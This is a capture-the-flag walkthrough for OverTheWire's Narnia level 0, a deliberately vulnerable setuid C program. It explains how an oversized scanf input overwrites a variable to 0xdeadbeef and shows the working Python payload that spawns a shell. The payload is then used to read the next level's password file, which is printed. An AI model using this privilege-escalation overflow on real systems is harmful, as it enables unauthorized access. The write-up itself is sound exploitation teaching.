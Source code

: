 ```bash
┏━•  ~
┗  ssh narnia0@narnia.labs.overthewire.org -p 2226

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password:
Linux narnia 4.18.12 x86_64 GNU/Linux
```
... SNIP BANNER ...

```bash
narnia0@narnia:~$ cat /narnia/narnia0.c
```
```c
/*                                                                                                                               /*
  This program is free software; you can redistribute it and/or modify
  it under the terms of the GNU General Public License as published by
  the Free Software Foundation; either version 2 of the License, or
  (at your option) any later version.

  This program is distributed in the hope that it will be useful,
  but WITHOUT ANY WARRANTY; without even the implied warranty of
  MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
  GNU General Public License for more details.

  You should have received a copy of the GNU General Public License
  along with this program; if not, write to the Free Software
  Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}
```

We can quickly see our buffer overflow in the code. The input character buffer (`char buf[20];`) has a length of 20 bytes, while the scanf() allows for 24 bytes (`scanf("%24s",&buf);`) of input leaving us 4 bytes to overflow. 

Looking at the code we can see that val has been assigned the hexadecimal value 0x41414141 (`long val=0x41414141;`), which, when decoded to a string is `AAAA`. It looks like the program expects the user to enter 20 characters then 0xDEADBEEF.

Lets try running the program with 20 A's to see the output.
```bash
narnia0@narnia:/narnia$ ./narnia0                                                                                     Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!
```

Now lets see what happens if we can change `val` to another value by adding 20 A's and 4 B's.
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```
It works! We were able to modify `val`. Now lets try giving the program what it wants. 20 chars, and then 0xdeadbeef. So lets test with the correct payload (i.e. hexstring in reverse 0xefbeadde)

```bash
narnia0@narnia:~$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

#### NOTE: You may be wondering why deadbeef is written backwards ("\xef\xbe\xad\xde"). In x86 and x86-64 (and a variety of other hardware), multi-byte values such as addresses are stored in little-endian order, ie. "backwards" from the viewpoint of a person reading it.

Now that we have privilege escilation lets get the password for narnia1 from /etc/narnia_pass/narnia1.

```bash
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
efeidiedae       # password for narnia1
```

Alternatively, print the string, and copy & paste it to get the the narnia1 shell and grab the password from /etc/ manually.

```bash
narnia0@narnia:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)                           AAAAAAAAAAAAAAAAAAAAﾭޯ

narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)

buf: (echo
val: 0x41414141
WAY OFF!!!!
narnia0@narnia:/narnia$                                                                                               narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭޯ
buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae
$
```